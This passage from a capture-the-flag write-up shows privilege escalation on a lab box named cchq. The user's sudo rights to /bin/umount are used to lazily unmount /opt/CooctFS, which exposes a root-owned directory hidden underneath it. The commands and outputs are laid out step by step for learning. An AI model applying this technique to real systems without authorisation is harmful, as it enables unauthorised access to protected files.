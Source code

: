 ## Checking sudo -l
```console
varg@cchq:~$ sudo -l
Matching Defaults entries for varg on cchq:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User varg may run the following commands on cchq:
    (root) NOPASSWD: /bin/umount
```
User varg can run **/bin/umount** on the box. So, lets check if we can use this to escalate our privileges to root on [gtfobins](https://gtfobins.github.io/). It looks like this can not be used directly for the privilege escalation.


## Listing the mounts
```console
varg@cchq:~$ df -ha | grep opt
/dev/mapper/ubuntu--vg-ubuntu--lv   19G  6.5G   12G  37% /opt/CooctFS
```
We can see  that the **/dev/mapper/ubuntu--vg-ubuntu--lv** is mounted on **/opt/CooctFS**.
Since we can run umount as root, I tried to unmount  **/opt/CooctFS**.

## Unmounting /opt/CooctFS
```console
varg@cchq:~$ sudo /bin/umount /opt/CooctFS
umount: /opt/CooctFS: target is busy.            
varg@cchq:~$ sudo /bin/umount -f /opt/CooctFS                      
umount: /opt/CooctFS: target is busy.            
varg@cchq:~$ sudo /bin/umount -l /opt/CooctFS 
```
Normal unmounting and force unmounting did not work, so I used lazy unmounting.

## Content of /opt
```console
varg@cchq:/opt$ ls -al
total 12
drwxr-xr-x  3 root root 4096 Feb 20 14:30 .
drwxr-xr-x 24 root root 4096 Feb 20 21:04 ..
drwxr-xr-x  3 root root 4096 Feb 20 09:09 CooctFS
```
## Files inside CooctFS
```
varg@cchq:/opt$ cd CooctFS/
varg@cchq:/opt/CooctFS$ ls -la
total 12
drwxr-xr-x 3 root root 4096 Feb 20 09:09 .
drwxr-xr-x 3 root root 4096 Feb 20 14:30 ..
drwxr-xr-x 5 root root 4096 Feb 20 09:16 root
```
We get a new folder called root.
